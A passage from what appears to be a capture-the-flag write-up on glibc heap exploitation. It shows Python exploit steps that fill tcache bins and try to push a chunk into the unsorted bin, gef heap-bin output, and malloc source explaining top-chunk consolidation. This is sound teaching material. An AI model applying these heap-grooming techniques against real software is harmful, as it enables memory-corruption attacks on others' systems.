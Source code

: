 ```
Tcachebins[idx=7, size=0x90] count=7  ←  Chunk(addr=0x56207bb2a750, size=0x90, flags=PREV_INUSE)  ←  [...]
```
Now, we need another chunk for putting into unsorted bin. Maybe allocate a chunk just after the ones used for tcachebin filling.
```py
tcache = [sell_item(str(i)*8) for i in range(7)]
a = sell_item('stdnoerr')

for i in tcache: buy_item(i)
buy_item(a)
```
```
Tcachebins[idx=1, size=0x30] count=7  ←  [...]                                          
Tcachebins[idx=7, size=0x90] count=7  ←  [...]
───────────────── Fastbins for arena 0x7f26bce21b80 ─────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x55f7e41897e0, size=0x30, flags=PREV_INUSE) 
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
───────────────── Unsorted Bin for arena '*0x7f26bce21b80' ─────────────────
[+] Found 0 chunks in unsorted bin.
───────────────── Small Bins for arena '*0x7f26bce21b80'   ─────────────────
[+] Found 0 chunks in 0 small non-empty bins.
───────────────── Large Bins for arena '*0x7f26bce21b80'   ─────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```
Hmmm. There's no chunk in unsortebin. But, there's a chunk in fastbin. It means the free worked but our `0x90` size chunk vanished.<br>
Actually, the chunk got consolidated into `top chunk`. Whenever a chunk is to be put in unsortebin, it is checked that whether the chunk is adjacent to `top chunk` or not. If it is, like in this case, it gets consolidated (merged) into `top chunk`. Below code is responsible for this behaviour: -
```c
if (nextchunk != av->top) {
    [...]
/*
    If the chunk borders the current high end of memory,
    consolidate into top
*/
else {
    size += nextsize;
    set_head(p, size | PREV_INUSE);
    av->top = p;
    check_chunk(av, p);
}
```
To prevent this, you can allocate another chunk or allocate the chunk to be put in unsortebin at start.<br>
I chose the latter. Just move the allocation above the tcache ones.
```py
a = sell_item('stdnoerr')
tcache = [sell_item(str(i)*8) for i in range(7)]

for i in tcache: buy_item(i)
buy_item(a)
```
```
Tcachebins[idx=1, size=0x30] count=7  ←  [...]                                                    
Tcachebins[idx=7, size=0x90] count=7  ←  [...]                                          
───────────────── Fastbins for arena 0x7ffaf420db80 ─────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30]  ←  Chunk(addr=0x5579d7edb2a0, size=0x30, flags=PREV_INUSE) 
```